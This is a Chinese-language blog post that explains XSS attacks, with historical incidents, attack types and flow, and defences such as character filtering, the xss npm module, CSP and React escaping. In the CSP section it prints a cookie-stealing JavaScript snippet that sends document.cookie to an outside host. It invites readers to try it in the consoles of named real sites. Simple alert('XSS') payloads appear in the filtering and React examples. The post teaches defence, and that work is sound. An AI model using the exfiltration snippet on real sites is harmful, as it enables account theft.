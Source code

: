 ```yaml
---
layout: post
title: "「Progress」转 addEventListener()与attachEvent()区别分析"
subtitle: " From CSDN"
author: "Yuzj"
header-img: "img/post-bg-web.jpg"
header-mask: 0.3
catalog: true
tags:
- A Little Progress
- JavaScript
---
```


# 今日讨论

你了解 XSS 攻击么 

# 结果

```
网络千万条，安全第一条。网安不规范，网站都完蛋!
```

作为前端工程师接触最多的漏洞我想就是 XSS 漏洞了，然鹅并不是所有的同学对其都有 一个清晰的认识。这篇文章将带领大家认清 XSS 攻击，以及对于 XSS 攻击该如何防范。 

## 什么是 XSS 攻击 

# XSS攻击那些事儿

​    2011年4月30日，人人站内信遭到XSS攻击。造成人ID，姓名，学校，手机号，QQ大约
​    2011年6月28日，新浪微博远程XSS攻击，微博用户中招后会自动向自己的粉丝发送含毒私信和微博，有人点击后会再次中毒，形成恶性循环

## 一，XSS攻击介绍

### 1.介绍

​    跨站脚本攻击（跨站点脚本），XSS攻击通常指的是通过利用网页开发时留下的漏洞，恶意攻击者往Web页面里插入恶意脚本代码，当用户浏览时，嵌入其中Web里面的脚本代码会被执行，从而达到恶意攻击用户的目的

### 2.危害

​    据近几岁年OWASP（OWASP是世界上最知名的Web安全与数据库安全研究组织）统计XSS占所有web攻击的22％，高居所有web威胁榜首

- 流量劫持
- 获取用户cookie信息，盗取账号
- 篡改，删除页面信息
- 配合CSRF攻击，实施进一步的攻击
- ······

## 二，XSS攻击类型

![屏幕快照 2020-01-20 下午11.56.28](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.56.28.png)

### 1.存储型XSS

- 存储型XSS浏览即被触发

  ![XSS类型](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.56.36.png)

  ### 2.反射型XSS

- 反射型XSS需要欺骗用户操作触发（知乎，京东已经做成转义，没有转义的情况下会被触发）

  # [![XSS类型](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.56.44.png)

## 三，XSS攻击流程

### 1.寻找突破

- 留言系统

- 邮件系统

- 评论系统

- 富文本编辑器

  上面这些都是XSS攻击的“重灾区”，因为它们都有共同点：

  ![XSS重灾区](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.56.50.png)

  ### 2.构造攻击代码

  ![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.56.56.png)

  ![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.57.02.png)

  ### 3.注入代码

- 验证攻击是否有效总结，XSS的整个流程大致如下：
  [![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.57.13.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_10.png)

  [![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.57.19.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_11.png)

## 四，XSS预防

### 1.特殊字符过滤

```
<script><script>
<style></style>
a，href | events
img，src | events
style=“width: expression(xxx)”
```

推荐[♡](http://jsxss.com/zh/index.html) xss npm模块[jsxss.com/zh/index.ht…](http://jsxss.com/zh/index.html)

```
import xss from ‘xss’;
const html = xss(‘<script>alert(“xss”)</script>’)
```

![屏幕快照 2020-01-20 下午11.57.25](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.57.25.png)[![特殊字符过滤](https://user-gold-cdn.xitu.io/2017/11/19/15fd45533001a817?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_12.png)

### 2. CSP

​    内容安全策略（Content Security Policy），实质上就是白名单制度，开发者明确告诉客户端，某些外部资源可以加载和执行，大大增强了网页的安全性。

- 客户端设置

  ```
  <meta http-equiv="Content-Security-Policy" content="default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval' ">
  ```

- 服务器设置

  ```
  setHeader(‘Content-Security-Policy’, default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval')
  ```

- CSP浏览器兼容性，安卓和IE支持不太理想的研究者的话可以在 [waimai.meituan.com](http://waimai.meituan.com/)和[ele.me](http://ele.me/)的控制台测试以下代码看看会发生什么
  [![CSP](https://pg12138.oss-cn-beijing.aliyuncs.com/img/in-post/2019-1-21/屏幕快照 2020-01-20 下午11.57.34.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_13.jpg)

  ```
  function sendCookie(){
   var img = document.createElement('img');
   img.src = 'https://keycode.me?cookie=' + document.cookie;
   document.body.appendChild(img);
   document.body.removeChild(img);
  }
  sendCookie();
  ```

并非预防了XSS，还是预防了XSS更深入的危害。CSP的具体介绍请戳[www.w3.org/TR/CSP1/](https://www.w3.org/TR/CSP1/)

### 3.XSS与反应

​    React官方文档是这么说的，JSX防止注入攻击

- 默认情况下，React DOM在呈现它们之前先转义JSX中嵌入的任何值。因此，它确保您永远不会注入未在应用程序中明确编写的任何内容。一切在呈现之前都会转换为字符串。这有助于防止XSS攻击。[facebook.github.io/react/docs/…](https://facebook.github.io/react/docs/introducing-jsx.html)

- 但事情也不是绝对的，在利用危险SetInnerHTML注入html时也要注意过滤特殊字符

  ```
  <div dangerouslySetInnerHTML={{__html: `<script>alert(‘XSS’)</script>`}} />
  ```